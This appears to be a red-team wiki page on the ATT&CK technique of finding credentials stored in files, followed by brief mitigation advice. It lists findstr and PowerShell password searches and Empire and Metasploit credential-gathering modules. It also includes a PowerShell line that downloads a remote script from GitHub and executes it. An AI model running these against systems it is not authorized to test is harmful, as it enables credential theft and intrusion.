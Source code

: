 ```yaml
---
description: https://attack.mitre.org/techniques/T1552/001/
---
```


# Credentials In Files

**ATT\&CK ID:** [T1552.001](https://attack.mitre.org/techniques/T1552/001/)

**Permissions Required:** <mark style="color:orange;">**Various**</mark>

**Description**

Adversaries may search local file systems and remote file shares for files containing insecurely stored credentials. These can be files created by users to store their own credentials, shared credential stores for a group of individuals, configuration files containing passwords for a system or service, or source code/binary files containing embedded passwords.

It is possible to extract passwords from backups or saved virtual machines through [OS Credential Dumping](https://attack.mitre.org/techniques/T1003). Passwords may also be obtained from Group Policy Preferences stored on the Windows Domain Controller.

## Techniques

### CMD

```bash
# Running these commands in the root of c:\ can produce enourmouse output.

findstr /si pass *.xml *.doc *.txt *.xls
findstr /si cred *.xml *.doc *.txt *.xls
```

![](../../../../.gitbook/assets/findstr-passwords.png)

### Empire

```
powershell/collection/file_finder
powershell/collection/find_interesting_file
powershell/credentials/sessiongopher
```

![](<../../../../.gitbook/assets/image (125) (2).png>)

### Metasploit

```bash
# Meterpreter

# Search by file name from parent directory
search -d <Directory> -f <File>
search -d c:\\shares -f *password*

# Modules

use post/windows/gather/enum_unattend
use post/windows/gather/credentials/chrome
use post/windows/gather/credentials/gpp
use post/windows/gather/enum_files

# Search all modules
search post/windows/gather/credentials
```

![post/windows/gather/enum\_files](<../../../../.gitbook/assets/image (538).png>)

### PowerShell

```powershell
ls -R | select-string -Pattern password
```

![](../../../../.gitbook/assets/Powershell-String-Search.png)

### SessionGopher

```powershell
$S3cur3Th1sSh1t_repo='https://raw.githubusercontent.com/S3cur3Th1sSh1t'
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/S3cur3Th1sSh1t/WinPwn/121dcee26a7aca368821563cbe92b2b5638c5773/WinPwn.ps1')
sessionGopher -noninteractive -consoleoutput
```

## Mitigation

### Auditing

Through the same or similar methods used in discovery of credentials within files, defenders can identify credential information left on systems and file shares.

### User Training

It is difficult to enact technical controls that mitigate the issue of unsecured credentials within files. Users often leave excel spreadsheets full of passwords on shares and desktops without any protection mechanisms.

It is paramount as a preventative measure to provide end users with training on how to securely store credentials and to understand how unsecured credentials can lead to further compromise of systems and data.

